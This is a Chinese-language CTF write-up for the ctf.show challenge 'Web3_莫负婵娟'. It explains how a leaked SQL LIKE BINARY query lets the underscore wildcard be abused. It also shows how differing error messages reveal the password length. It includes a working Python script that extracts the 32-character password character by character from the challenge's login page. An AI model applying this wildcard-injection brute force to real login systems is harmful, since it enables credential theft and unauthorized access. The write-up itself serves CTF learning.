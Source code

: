 ![](./images/image-4.png)

### Web3\_莫负婵娟

在源代码里发现部分代码

```
<!-- username yu22x -->
<!-- SELECT * FROM users where username like binary('$username') and password like binary('$password')-->
```

看来是like模糊查询，%是sql语句中的通配符，可以匹配多个字符，下划线\_\_\_可以匹配一个字符

这里%被ban了，不过下划线可以使用

首先测试得到密码有32位

当密码大于或小于32位的时候会报

wrong username or password

而密码是32位的时候报的是

I have filtered all the characters. Why can you come in? get out!

知道位数就可以写脚本爆破了

脚本如下：

```
import requests
import string
dict=string.digits+string.ascii_letters
url='http://3bf67942-614c-402b-a661-0b62f443f665.challenge.ctf.show/login.php'
password=''
for i in range(32):
    for j in dict:
        passwd=password+j+(31-i)*'_'
        data={'username':'yu22x',"password":passwd}
        r=requests.post(url=url,data=data)
        if 'wrong' not in r.text:
            password+=j
            print(password)
            break;
```
